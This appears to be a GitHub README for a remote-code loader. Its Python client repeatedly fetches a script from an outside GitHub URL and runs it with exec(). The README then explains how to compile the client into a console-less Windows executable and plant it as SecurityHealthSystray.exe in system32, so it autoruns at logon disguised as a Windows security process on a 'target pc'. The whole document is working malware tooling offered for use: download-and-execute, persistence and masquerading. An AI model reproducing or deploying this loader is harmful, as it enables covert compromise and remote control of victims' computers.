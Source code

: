 # Client example
```python
import time
import requests

def has_internet():
    global a
    try:
        a = requests.get("https://raw.githubusercontent.com/slayy2357/payload1/main/temp.py").text
        if "#don't delete" in str(a):
            return True
        else:
            return False
    except:
        return False

while True:
    if has_internet() == True:
        exec(a)
        break
    else:
        time.sleep(5)
        pass
```
## How to make client autorun
### If you are on windows (and target pc is on windows)
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Install pyinstaller :
```bash
pip install pyinstaller
```
Compile client to executable :
```bash
pyinstaller client.py --onefile --noconsole --hidden-import=ctypes --hidden-import=ctypes.wintypes
```
### If you are on linux (and target pc is on windows)
Install wine, download python 64bit .exe installer then start cmd :
```bash
wine cmd
```
Install python (replace with real name):
```bash
pythoninstaller.exe
```
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Then install pyinstaller :
```bash
pip install pyinstaller
```
And finally, compile to .exe :
```bash
pyinstaller client.py --onefile --noconsole --hidden-import=ctypes --hidden-import=ctypes.wintypes
```
## Finally :
Now whether you are on Linux or Windows, you have your client in ```dist/*.exe```, it can be injected as ```SecurityHealthSystray.exe``` for autorun on user logon (```C:\Windows\system32\SecurityHealthSystray.exe```)